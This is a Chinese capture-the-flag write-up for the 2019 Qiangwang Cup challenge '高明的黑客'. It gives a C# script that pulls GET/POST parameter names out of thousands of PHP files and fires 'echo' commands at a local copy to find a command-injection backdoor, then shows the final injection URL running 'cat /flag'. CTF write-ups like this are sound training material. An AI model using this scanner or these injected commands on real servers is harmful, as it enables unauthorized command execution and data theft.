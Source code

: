 # [强网杯 2019]高明的黑客
![](<./img/Pasted image 20221126133523.png>)

---
首页长这样

![](<./img/Pasted image 20221126133538.png>)

离谱了

![](<./img/Pasted image 20221126134519.png>)

（草

这么多代码人工审计是不现实了（每日一题都不容易，这直接给我每日数千题QAQ），部署到了本地，尝试黑箱爆破

网上有大佬写好的`exp`，但是不会`python`QAQ，所以就用`C#`自己写了个（话说没有`GIL`，`C#`的多线程会不会比`python`快很多呢www）
```cs
using System.Text.RegularExpressions;

var dir = "/usr/share/nginx/html/src";
var files = Directory.GetFiles(dir);

var regexGet = new Regex(pattern: @"\$_GET\['(\w+)'\]");
var regexPost = new Regex(pattern: @"\$_POST\['(\w+)'\]");
var regexResponse = new Regex(pattern: @"maybeapayload");

Parallel.ForEach(files, file =>
{
    using StreamReader reader = File.OpenText(file);
    var content = reader.ReadToEnd();

    var matches = regexGet.Matches(content);
    var namesGet = new List<string>();
    foreach (Match match in matches)
    {
        var nameGet = match.Groups[1].Value;
        namesGet.Add(nameGet);
    }

    matches = regexPost.Matches(content);
    var namesPost = new List<string>();
    foreach (Match match in matches)
    {
        var namePost = match.Groups[1].Value;
        namesPost.Add(namePost);
    }
    UriBuilder uriBuilder = new()
    {
        Host = "localhost",
        Path = $"src/{Path.GetFileName(file)}",
        Query = string.Join('&', namesGet.ConvertAll(nameGet => $"{nameGet}=echo maybeapayload"))
    };
    // Console.WriteLine(uriBuilder.Uri);
    Dictionary<string, string> dict = new();
    namesPost.ForEach(namePost => dict.Add(namePost, "echo maybeapayload"));

    using HttpClient client = new HttpClient();
    using var response = client.PostAsync(uriBuilder.Uri, new FormUrlEncodedContent(dict)).Result;

    if (regexResponse.IsMatch(response.Content.ReadAsStringAsync().Result))
    {
        Console.WriteLine(file);
        Console.WriteLine(response.Content.ReadAsStringAsync().Result);
    }
});
```
跑完差不多花了4秒（打开优化的情况下），感觉效率蛮高

![](<./img/Pasted image 20221126204354.png>)

![](<./img/Pasted image 20221126204440.png>)

顺藤摸瓜找一找在`php`中出现的位置

![](<./img/Pasted image 20221126205805.png>)

这这这这藏得也太隐蔽了叭，出题人呕心沥血生成几千个文件来雷普萌新，他真的，我哭死==
```php
/xk0SzyKwfzw.php?Efa5BVG=cat /flag
```

![](<./img/Pasted image 20221126210934.png>)
